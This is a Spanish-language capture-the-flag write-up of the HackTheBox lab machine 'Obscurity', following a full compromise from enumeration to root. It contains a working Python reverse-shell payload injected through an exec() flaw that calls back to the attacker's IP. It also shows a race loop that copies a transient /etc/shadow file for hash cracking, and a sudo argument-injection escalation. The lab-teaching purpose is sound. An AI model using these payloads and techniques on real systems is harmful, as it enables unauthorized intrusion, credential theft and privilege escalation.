

# Detalles de la máquina

| | |
|------------|--------------------|
| IP         | 10.10.10.168       |
| SO         | Linux              |
| Tipo       | CTF/Custom Exploit |
| Dificultad | Media              |

# Enumeración

Comenzamos como siempre, nmap para descubrir puertos y accedemos a la IP de la
máquina con el navegador. Al entrar desde el navegador no nos recibe ningún
servidor web. En nmap encontramos que hay un servicio escuchando en el puerto
8080 pero nmap no lo reconoce con seguridad.

```shell
user@kali:~$ nmap -A 10.10.10.168
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 01:52 CDT
Nmap scan report for obscure.htb (10.10.10.168)
Host is up (0.40s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|_  256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
80/tcp   closed http
8080/tcp open   http-proxy?
|_http-title: 0bscura
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 227.38 seconds
```

Si accedemos en el navegador al puerto 8080 del servidor nos recibe una página
web de algo que parece ser una consultoría de seguridad. En la página se pueden
leer barbaridades cómo:

> "you can't be hacked if attackers don't know what software you're using!"

> "our motto is 'security through obscurity'"

> "we write all our own software from scratch [...] This means that no exploits
> can possibly exist for it"

Vemos además dos cosas interesantes, una es un listado del software que ofrecen
y otra es una nota a los desarrolladores indicando que se puede encontrar el
código fuente del servidor en el archivo `SuperSecureServer.py` que se encuentra
en alguna parte del servidor web.



Ahora que sabemos de este archivo con el código fuente podemos tratar de buscar
de forma automática en URLs con el patrón
`10.10.10.168:8080/_algo_/SuperSecureServer.py`. Para hacer esto usamos wfuzz
que nos permite encontrar por fuerza bruta una URL, que cumple cierto patrón.
Podemos invocar este programa desde la línea de comandos indicándole un
diccionario y la url que queremos encontrar indicando con la palabra `FUZZ`
donde debe sustituir las palabras del diccionario.

```shell
user@kali:~$ wfuzz -w /usr/share/wordlists/wfuzz/general/medium.txt \
    http://obscure.htb:8080/FUZZ/SuperSecureServer.py > wfuzz.txt
```

wfuzz presenta un listado muy extenso, así que usamos grep para filtrar solo
aquellas líneas donde la respuesta del servidor sea 200. 

```shell
user@kali:~$ grep 200 wfuzz.txt
000000014:   404        6 L      14 W     172 Ch      "200"
000000015:   404        6 L      14 W     173 Ch      "2000"
000000016:   404        6 L      14 W     173 Ch      "2001"
000000017:   404        6 L      14 W     173 Ch      "2002"
000000018:   404        6 L      14 W     173 Ch      "2003"
000000200:   404        6 L      14 W     176 Ch      "beverly"
000000448:   200        170 L    498 W    5892 Ch     "develop"
000001200:   404        6 L      14 W     176 Ch      "publico"
```

Vemos que develop es el único resultado obtenido, podemos usar wget para
descargar el archivo.

```shell
user@kali:~$ wget 10.10.10.168:8080/develop/SuperSecureServer.py
```

# Intrusión a la máquina

Ahora que tenemos el código fuente del servidor podemos comenzar a crear una
vulnerabilidad para acceder a una shell remota. Para ello vamos a analizar el
código usando curl y el depurador de python.

Podemos ver que en el código hay 3 clases: `Response`, 'Request' y 'Server'.
`Response` parece construir una cadena que será la respuesta del servidor a una
petición a partir de un diccionario. `Request` parece recibir la petición como
una cadena que luego convierte en un diccionario que contiene los encabezados de
la petición pero no parece manejar el cuerpo de la solicitud forma especial. Por
último la clase `Server` tiene un bucle infinito donde espera por nuevas
conexiones, cuando una nueva conexión llega lanza un hilo para atender la
solicitud usando la función `handleRequest` que a su vez llama a la función
`serveDoc` donde encontramos una llamada a `exec` muy sospechosa.

```python
def serveDoc(self, path, docRoot):
    path = urllib.parse.unquote(path)
    try:
        info = "output = 'Document: {}'" # Keep the output for later debug
        exec(info.format(path)) # This is how you do string formatting, right?
        cwd = os.path.dirname(os.path.realpath(__file__))
        docRoot = os.path.join(cwd, docRoot)
        if path == "/":
            path = "/index.html"
        requested = os.path.join(docRoot, path[1:])
        if os.path.isfile(requested):
            ...
```

## Exploit

La función `exec()` en python recibe una cadena y la interpreta como código de
python. La llamada a `info.format(path)` puede interpretarse como `"output =
'Document: {}'".format(path)`, es decir se esta usando el método format de una
cadena para que `{}` sea sustituido por cualquier cosa que este dentro de `path`
y luego el resultado sea ejecutado como código de python. Entonces si tenemos
acceso a la variable `path`, vamos a lograr ejecutar código malicioso en el
servidor.

Como ya habíamos dicho la función `serveDoc` es llamada por `handleRequest` y
ésta le pasa la variable `request.doc` como el parámetro `path` a `serveDoc`.
`request` es el primer parámetro de `handleRequest` y lo recibe de
`listenToClient`, quién lo crea a partir de la cadena que recibió como petición
del cliente.

```python
def listenToClient(self, client, address):
    size = 1024
    while True:
        try:
            data = client.recv(size)
            if data:
                # Set the response to echo back the recieved data 
                req = Request(data.decode())
                self.handleRequest(req, client, address)
...
```

Si revisamos el código de la clase `Request` vemos que `request.doc` viene
directamente de la petición sin ningún tipo de sanitización de la entrada, por
lo que podemos tener acceso al valor de `path` usando una petición GET. Una
petición GET tiene la siguiente estructura.

```
GET /test/demo_form.php?name1=value1&name2=value2 HTTP/1.1
Host: w3schools.com
...
```

El código en el servidor toma toda la cadena entre `GET` y `HTTP/1.1` y tras
todas las llamadas a las funciones que ya vimos, esa cadena termina dentro de la
variable `path` tras ser decodificada.

## Creación de la cadena maliciosa

Vamos a analizar que es necesario para que el servidor ejecute nuestra cadena
maliciosa sin que tiremos el servidor. La cadena donde vamos a insertar nuestro
código malicioso es

```
"output = 'Document: {}'"
```

Primero vemos que en nuestro código debemos cerrar la primera comilla sencilla,
para que de este modo el resto de la cadena que enviaremos al servidor se
interpretada como código de python y no como una cadena de texto y terminar la
sentencia usando un punto y coma para separar la primera asignación de la
variable `output` de nuestro código, y cerrar la última comilla para que nuestra
cadena siga siendo un programa validó de python. Hasta aquí tendríamos la
siguiente cadena maliciosa.


```
';'
```

Que se interpretaría en el servidor como:

```python
output = 'Document: ';''
```

Entre el el punto y coma y la última comilla podemos escribir nuestro código
malicioso, que por si no lo has notado, debe de ser python 3. Por ejemplo
podemos crear una reverse shell.

```python
';import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.198",3355));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash");'
```

Este código lo que hace es crear un nuevo socket, conectarse a nuestra
computadora, redirigir `stdin`, `stdout` y `stderr` al socket y crear una nueva
shell interactiva usando `pty`. En el servidor eso equivaldría al siguiente
programa

```python
output = 'Document: '
import socket, os, pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.198",3355))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
''
```

# Movimiento lateral

Ahora que tenemos acceso a la máquina podemos buscar la forma de controlar algún
usuario regular o obtener acceso a la cuenta de root. Con un poco de enumeración
podemos ver que tenemos acceso de lectura a los documentos del usuario `robert`,
ahí podemos encontrar el programa que implementa el algoritmo de cifrado
"irrompible" que se mencionaba en la página web, también encontramos un par de
archivos interesantes, check.txt y out.txt.

```
www-data@obscure:/home/robert$ ls
BetterSSH  out.txt               SuperSecureCrypt.py
check.txt  passwordreminder.txt  user.txt
```

De acuerdo con check.txt, cifrar ese archivo con la llave debería resultar en el
archivo out.txt. Si revisamos el archivo SuperSecureCrypt.py vemos que
implementa un algoritmo de cifrado muy sencillo, toma una llave y un mensaje,
convierte cada carácter a un valor numérico y luego los suma posición a posición
y el resultado es el nuevo carácter cifrado

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

Hace falta un poco de conocimiento sobre sistemas de cifrado y aritmética
modular que en algún momento tuve, pero de eso ahora solo me quedan las
intuiciones que mi cerebro consideró relevantes como para conservar, pero el
truco para romper este cifrado es muy sencillo.

Dado que para obtener un nuevo carácter cifrado $c$ fue necesario sumar dos
caracteres $m$ del mensaje y $k$ de la llave, entonces es fácil ver que 

$$
c = m + k
$$

entonces, si tenemos el carácter cifrado y el texto plano podemos descubrir la
llave 

$$
k = c - m
$$

y vemos que convenientemente el programa también implementa esta función, ya que
esto es equivalente a descifrar el mensaje cifrado.

```python
def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255) # esta es la linea relevante
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted
```

si ahora usamos el script SuperSecureCrypt.py con el archivo con el archivo
ya cifrado `out.txt` como mensaje y como llave usamos el mensaje no cifrado `check.txt`
deberíamos obtener una llave.

```shell
www-data@obscure:/home/robert$ python3 ./SuperSecureCrypt.py
usage: SuperSecureCrypt.py [-h] [-i InFile] [-o OutFile] [-k Key] [-d]
www-data@obscure:/home/robert$ python3 ./SuperSecureCrypt.py -d -i out.txt -k "$(cat check.txt)" -o /dev/stdout
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to /dev/stdout...
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichaiwww-data@obscure:/home/robert$
```

Excelente, obtuvimos una clave, que es `alexandrovich` y se repite tantas veces
como sea la longitud del mensaje a cifrar pero esto es solo por la forma en que
funcionan estos cifrados, solo necesitamos una vez la llave.

Ahora entre los archivos en el directorio había también un archivo llamado
`passwordreminder.txt`, cuyo contenido no dice nada legible: `´ÑÈÌÉàÙÁÑ鯷¿k`,
pero que al descifrarlo con la llave que encontramos revela la contraseña
`SecThruObsFTW`. Podemos usar esta contraseña para acceder al usuario.

```shell
www-data@obscure:/home/robert$ su robert
Password: 
robert@obscure:~$
```

# Escalado de privilegios

También dentro de la carpeta de robert encontramos un programa llamado
`BetterSSH.py`, este programa toma como entrada un nombre de usuario y una
contraseña, lee el archivo `/etc/shadow` (donde en linux se
guardan el hash de las contraseñas de los usuarios y la sal que se uso para
generar el hash), verifica que las credenciales proporcionadas sean las
correctas y en caso de ser correctas ejecuta cada comando que se le proporcione
como el usuario solicitado usando sudo. El problema con este programa es que
crea una copia del archivo /etc/shadow que vive momentáneamente en una carpeta
dentro de `/tmp`. Si somos lo suficientemente rápidos podemos copiar el archivo
antes de que sea eliminado, para ello usamos este script

```shell
robert@obscure:~$ until [ -f /tmp/SSH/* ]; do : ; done; cp /tmp/SSH/* /tmp/.test/
```

De esta forma, con los hashes y la sal podemos usar un programa como
JohnTheReaper para romper la contraseña.

## Actualización

De acuerdo al writeup oficial otro método para obtener una shell de root es solo
aprovecharse de las siguientes líneas en el programa

```shell
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

Vemos que a cada comando se le añade al principio el comando `sudo -u`, podemos
engañar al comando pasando de nuevo la bandera `-u root` al principio del
comando y hacer que ejecute el comando como un usuario distinto al que debería.
